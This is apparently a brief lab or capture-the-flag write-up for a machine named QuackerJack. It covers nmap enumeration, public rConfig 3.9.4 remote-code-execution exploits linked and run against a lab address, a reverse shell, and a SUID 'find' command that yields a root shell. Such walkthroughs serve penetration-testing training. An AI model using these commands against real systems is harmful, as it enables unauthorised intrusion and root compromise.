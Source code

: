 # QuackerJack

### Enumeration

```
...
8081/tcp open  ssl/http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-favicon: Unknown favicon MD5: 52D936993020A4A4BF686DB0EED64D5A
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=quackerjack/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=quackerjack/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-06-22T19:28:25
| Not valid after:  2021-06-22T19:28:25
| MD5:   ea49 5ac9 a64c f14d 0847 f4b8 2a3e 6ea0
|_SHA-1: 5e3b 3a09 9c75 6044 f1aa 168c 9592 8e56 e025 243f
|_ssl-date: TLS randomness does not represent time
...
```

There is a rConfig Version 3.9.4 on 8081.

**rConfig 3.9.4 - 'searchField' Unauthenticated Root Remote Code Execution - **

https://www.exploit-db.com/exploits/48261

```
python3 rconfig_root_RCE_unauth_final.py https://192.168.181.57:8081 192.168.49.181 443
[+] Adding a temporary admin user...
[+] Authenticating as ursjanvhgq...
Interrupted here. I could not work fully exploit.
```

### Initial Access

admin: ursjanvhgq

**Rconfig File Upload RCE Exploit - **

https://gist.github.com/farid007/9f6ad063645d5b1550298c8b9ae953ff

With this exploit, we can get reverse shell.

### PrivEsc

Find executable has a SUID bit.

[https://gtfobins.github.io/gtfobins/find/#suid](https://gtfobins.github.io/gtfobins/find/#suid)

```
-rwsr-xr-x. 1 root root 195K Oct 30  2018 /usr/bin/find

$ find . -exec /bin/bash -p \; -quit
```
